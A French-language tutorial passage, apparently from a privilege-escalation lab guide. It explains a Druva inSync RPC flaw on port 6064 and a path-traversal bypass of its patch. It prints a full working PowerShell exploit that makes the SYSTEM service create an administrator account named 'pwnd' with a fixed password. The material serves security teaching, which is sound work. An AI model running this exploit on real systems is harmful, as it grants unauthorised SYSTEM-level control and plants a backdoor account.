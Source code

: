 Dans le cas de Druva inSync, l'une des procédures exposées (spécifiquement la procédure numéro 5) sur le port 6064 permettait à n'importe qui de demander l'exécution de n'importe quelle commande. Comme le serveur RPC fonctionne en tant que SYSTEM, toute commande est exécutée avec les privilèges SYSTEM.

La vulnérabilité originale signalée dans les versions 6.5.0 et antérieures permettait d'exécuter n'importe quelle commande sans restriction. L'idée originale derrière cette fonctionnalité était d'exécuter à distance certains binaires spécifiques fournis avec inSync, plutôt que n'importe quelle commande. Cependant, aucune vérification n'a été faite pour s'en assurer.

Un correctif a été publié, dans lequel il a été décidé de vérifier que la commande exécutée commençait par la chaîne `C:\ProgramData\Druva\inSync4\`, où les binaires autorisés étaient censés se trouver. Mais cela s'est avéré insuffisant, car il suffit d'effectuer une attaque par traversée de chemin pour contourner ce type de contrôle. Supposons que vous vouliez exécuter `C:\Windows\System32\cmd.exe`, qui ne se trouve pas dans le chemin autorisé ; vous pourriez simplement demander au serveur d'exécuter `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe` et cela contournerait le contrôle avec succès.

Pour mettre en place un exploit fonctionnel, nous devons comprendre comment communiquer avec le port 6064. Heureusement pour nous, le protocole utilisé est simple, et les paquets à envoyer sont décrits dans le diagramme suivant :


Le premier paquet est simplement un paquet hello qui contient une chaîne de caractères fixe. Le deuxième paquet indique que nous voulons exécuter la procédure numéro 5, car il s'agit de la procédure vulnérable qui exécutera n'importe quelle commande pour nous. Les deux derniers paquets sont utilisés pour envoyer la longueur de la commande et la chaîne de commande à exécuter, respectivement.

Initialement publié par Matteo Malvica ici, l'exploit suivant peut être utilisé dans votre machine cible pour élever les privilèges. Voici le code de l'exploit original :
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

Notez que la charge utile par défaut de l'exploit, spécifiée dans la variable $cmd. Cela créera l'utilisateur pwnd avec un mot de passe SimplePass123 et l'ajoutera au groupe des administrateurs. Si l'exploit a réussi, vous devriez pouvoir exécuter la commande suivante pour vérifier que l'utilisateur pwnd existe et qu'il fait partie du groupe des administrateurs :

